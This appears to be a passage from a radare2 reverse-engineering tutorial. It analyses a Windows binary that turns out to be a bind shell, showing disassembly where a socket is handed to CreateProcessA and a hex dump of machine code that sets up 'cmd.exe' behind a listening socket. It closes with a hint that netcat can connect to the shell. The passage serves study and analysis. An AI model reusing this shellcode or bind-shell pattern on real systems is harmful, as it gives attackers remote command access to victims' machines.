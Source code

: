 ```
|     ||    0x00401741      c74424200100.  mov dword [local_20h], 1
|     ||    0x00401749      41b900000000   mov r9d, 0
|     ||    0x0040174f      41b800000000   mov r8d, 0
|     ||    0x00401755      4889c2         mov rdx, rax
|     ||    0x00401758      b900000000     mov ecx, 0
|     ||    0x0040175d      488b05646b00.  mov rax, qword sym.imp.KERNEL32.dll_CreateProcessA ; [0x4082c8:8]=0x8508 reloc.KERNEL32.dll_CreateProcessA
```
So that chunk of code may look complex to analyse, a lot of values being initialized there. We need to be aware of a couple of them:

First of all we see arg_230h, the var holding the new socked (for client communication)
```
|     ||    0x004016f0      c7453c010100.  mov dword [arg_3ch], 0x101  ; 257
|     ||    0x004016f7      488b85300200.  mov rax, qword [arg_230h]   ; [0x230:8]=-1 ; 560
|     ||    0x004016fe      48894560       mov qword [arg_60h], rax    ; [0x60:8]=-1 ; '`' ; 96
```
Being passed to CreateProcessA 
```
 ||    0x00401749      41b900000000   mov r9d, 0
 ||    0x0040174f      41b800000000   mov r8d, 0
 ||    0x00401755      4889c2         mov rdx, rax
 ||    0x00401758      b900000000     mov ecx, 0
 ||    0x0040175d      488b05646b00.  mov rax, qword sym.imp.KERNEL32.dll_CreateProcessA ; [0x4082c8:8]=0x8508 reloc.KERNEL32.dll_CreateProcessA
```
SO we can figure out that the process created will relate to the socket. 

But what does this has to do with reversing and such? Isn't that program just very very simple?

Here you have a small hint:
```c
[0x00401550]> pc
#define _BUFFER_SIZE 256
const uint8_t buffer[256] = {
  0x55, 0x48, 0x81, 0xec, 0xc0, 0x02, 0x00, 0x00, 0x48, 0x8d,
  0xac, 0x24, 0x80, 0x00, 0x00, 0x00, 0x48, 0xb8, 0x63, 0x6d,
  0x64, 0x2e, 0x65, 0x78, 0x65, 0x00, 0x48, 0x89, 0x45, 0xd8,
  0x48, 0x8d, 0x85, 0x90, 0x00, 0x00, 0x00, 0x48, 0x89, 0xc2,
  0xb9, 0x02, 0x02, 0x00, 0x00, 0x48, 0x8b, 0x05, 0xfc, 0x6c,
  0x00, 0x00, 0xff, 0xd0, 0xc7, 0x44, 0x24, 0x28, 0x00, 0x00,
  0x00, 0x00, 0xc7, 0x44, 0x24, 0x20, 0x00, 0x00, 0x00, 0x00,
  0x41, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x41, 0xb8, 0x06, 0x00,
  0x00, 0x00, 0xba, 0x01, 0x00, 0x00, 0x00, 0xb9, 0x02, 0x00,
  0x00, 0x00, 0x48, 0x8b, 0x05, 0xc5, 0x6c, 0x00, 0x00, 0xff,
  0xd0, 0x48, 0x89, 0x85, 0x38, 0x02, 0x00, 0x00, 0x66, 0xc7,
  0x85, 0x80, 0x00, 0x00, 0x00, 0x02, 0x00, 0xb9, 0x5c, 0x11,
  0x00, 0x00, 0x48, 0x8b, 0x05, 0xcf, 0x6c, 0x00, 0x00, 0xff,
  0xd0, 0x66, 0x89, 0x85, 0x82, 0x00, 0x00, 0x00, 0x48, 0x8d,
  0x0d, 0x1f, 0x2a, 0x00, 0x00, 0x48, 0x8b, 0x05, 0xc0, 0x6c,
  0x00, 0x00, 0xff, 0xd0, 0x89, 0x85, 0x84, 0x00, 0x00, 0x00,
  0x48, 0x8d, 0x85, 0x80, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8d,
  0x38, 0x02, 0x00, 0x00, 0x41, 0xb8, 0x10, 0x00, 0x00, 0x00,
  0x48, 0x89, 0xc2, 0x48, 0x8b, 0x05, 0x82, 0x6c, 0x00, 0x00,
  0xff, 0xd0, 0x83, 0xf8, 0xff, 0x75, 0x38, 0x48, 0x8b, 0x05,
  0x54, 0x6c, 0x00, 0x00, 0xff, 0xd0, 0x89, 0xc2, 0x48, 0x8d,
  0x0d, 0xe1, 0x29, 0x00, 0x00, 0xe8, 0x1c, 0x17, 0x00, 0x00,
  0x48, 0x8b, 0x85, 0x38, 0x02, 0x00, 0x00, 0x48, 0x89, 0xc1,
  0x48, 0x8b, 0x05, 0x5b, 0x6c, 0x00, 0x00, 0xff, 0xd0, 0x48,
  0x8b, 0x05, 0x22, 0x6c, 0x00, 0x00, 0xff, 0xd0, 0xe9, 0x89,
  0x01, 0x00, 0x00, 0x48, 0x8b, 0x85
};
[0x00401550]>
```
** netcat can be used here to connect to this bind shell. 
